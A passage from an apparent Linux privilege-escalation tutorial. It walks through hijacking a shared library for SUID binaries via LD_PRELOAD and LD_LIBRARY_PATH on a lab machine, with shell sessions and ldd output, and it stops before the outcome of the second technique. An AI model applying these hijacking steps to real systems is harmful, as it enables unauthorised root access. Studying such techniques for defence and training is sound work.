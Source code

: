 As we can see above, it loads the malicious library but it then notices that there's a SUID bit declaration in the malicious library and therefore it doesn't execute the root shell. Now let's try executing a binary with the SUID bit set:

```bash
user@pwn:~/so-files/evil$ LD_PRELOAD=/home/user/so-files/evil/libcustom.so /usr/bin/myexec
Message from myexec.c!
Message from libcustom.c
user@pwn:~/so-files/evil$ 
```

It doesn't even load the malicious library because the binary itself (`myexec`) has a SUID bit set. This doesn't work because it has been patched.

Now let's remove the value in the LD_PRELOAD environment variable with the `unset` command:

```bash
user@pwn:~/so-files/evil$ echo $LD_PRELOAD
/home/user/so-files/evil/libcustom.so
user@pwn:~/so-files/evil$ unset LD_PRELOAD
user@pwn:~/so-files/evil$ echo $LD_PRELOAD

user@pwn:~/so-files/evil$ 
```

# Privilege Escalation via LD_LIBRARY_PATH

Let's modify the value of the LD_LIBRARY_PATH environment variable by adding the directory in which the malicious library is located:

```bash
user@pwn:~/so-files/evil$ export LD_LIBRARY_PATH=/home/user/so-files/evil/
user@pwn:~/so-files/evil$ echo $LD_LIBRARY_PATH
/home/user/so-files/evil/
user@pwn:~/so-files/evil$ 
```

Using `ldd` we can see that library `libcustom.so` is now pointing to the directory that has the malicious library:

```bash
user@pwn:~/so-files/evil$ ldd /usr/bin/myexec
	linux-vdso.so.1 (0x00007ffffe3f3000)
	libcustom.so => /home/user/so-files/evil/libcustom.so (0x00007fe052992000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fe052791000)
	/lib64/ld-linux-x86-64.so.2 (0x00007fe05299e000)
user@pwn:~/so-files/evil$ ldd /usr/bin/myexec2
	linux-vdso.so.1 (0x00007ffde8bb2000)
	libcustom.so => /home/user/so-files/evil/libcustom.so (0x00007f7c0f2b0000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7c0f0af000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f7c0f2bc000)
user@pwn:~/so-files/evil$ 
```

If we try to do the same things as we did with the environment variable `LD_PRELOAD`, we can see that the same thing happens:
